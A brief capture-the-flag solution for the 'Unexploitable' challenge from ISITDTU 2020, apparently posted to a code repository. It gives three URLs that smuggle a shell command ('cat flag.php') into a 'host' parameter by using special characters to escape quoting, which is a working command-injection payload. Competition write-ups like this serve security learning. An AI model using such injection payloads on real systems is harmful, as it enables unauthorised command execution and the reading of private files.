 Solution for Unexploitable (ISITDTU 2020)

Just use special character to escapse quote
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%82;%20cat%20flag.php;%20%82
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%91;%20cat%20flag.php;%20%91
---

http://13.68.153.110/unexploitable/?host=8.8.8.8%92;%20cat%20flag.php;%20%92
---

...

![image](./show.png)